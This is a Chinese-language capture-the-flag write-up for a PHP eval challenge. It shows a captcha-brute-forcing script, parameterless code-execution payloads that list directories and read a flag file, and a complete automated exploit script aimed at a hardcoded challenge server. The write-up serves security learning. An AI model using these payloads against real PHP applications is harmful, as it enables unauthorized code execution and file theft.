



# evalcode
## 考察知识点：
### 1.无参数代码执行

## 1.爆破验证码
```
import hashlib
for x in range(1,300000):
    string=str(x)
    md5 = hashlib.md5(string.encode('utf-8')).hexdigest()
    cap='65a3'
    if(md5[0:4]==cap.lower()):
        print(string)
```

## 2.根据题目提示执行代码

`system('ls');`


根据返回提示知道为无参数代码执行，参考bytectf boringcode

## 3.查看phpinfo页面


disable_function模块无任何函数限制。

### 4.目录探测

payload:`var_dump(scandir(current(localeconv())));`



### 5.falg应该在the_flag.php文件中，构造payload读取倒数第二个文件：

`readfile(next(array_reverse(scandir(getcwd()))));`



成功读取flag。

payload，函数简单讲解：

getcwd():获取当前目录

scandir():列出指定路径中的文件和目录

array_reverse()：返回顺序相反的数组

next():将数组指针向前推一步，然后返回元素值

readfile(): 文件读取


## 这个题有多种解法
### 法二：http头

参考文章：

https://xz.aliyun.com/t/6316



### 大佬们甚至写出了全自动脚本

给脚本加一些注释膜一下

```
# coding=utf-8
# 计算一个值的md5值，使他的前四位==验证码

import hashlib
import requests
import re
import random

from sympy import group

url = "http://148.70.59.198:34386/"

# http头
headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'Cookie': 'PHPSESSID=0b1cc21e734a29e8b4f881e0cf548b42'
}


def get_cap():
    # 获取页面的验证码
    req = requests.get(url=url, headers=headers)
    text = req.text

    # 搜索页面中的验证码,采用（.*？）匹配
    cap1 =re.search("substr\(md5\(\$captcha\),0,4\) =='(.*?)'",text)
    # 取搜索到的第一个值
    cap =cap1.group(1)

    # 爆破验证码
    mad5_value = ''
    x = ''

    # 将获取到的验证码与md5加密的随机数比较，知道md5值得前四位与验证码相等时，返回随机数
    while cap != mad5_value:
        x = str(random.random())
        mad5_value = hashlib.md5(x.encode('utf-8')).hexdigest()[0:4]

    return x


def test(payload, cap):
    data = 'payload={0}&code={1}'.format(payload, cap)
    text = requests.post(url=url, headers=headers, data=data).text
    return text


if __name__ == '__main__':
    payload = 'readfile(next(array_reverse(scandir(getcwd()))));'
    response = test(payload, get_cap())
    print(response)

# 构造数据包发送请求
```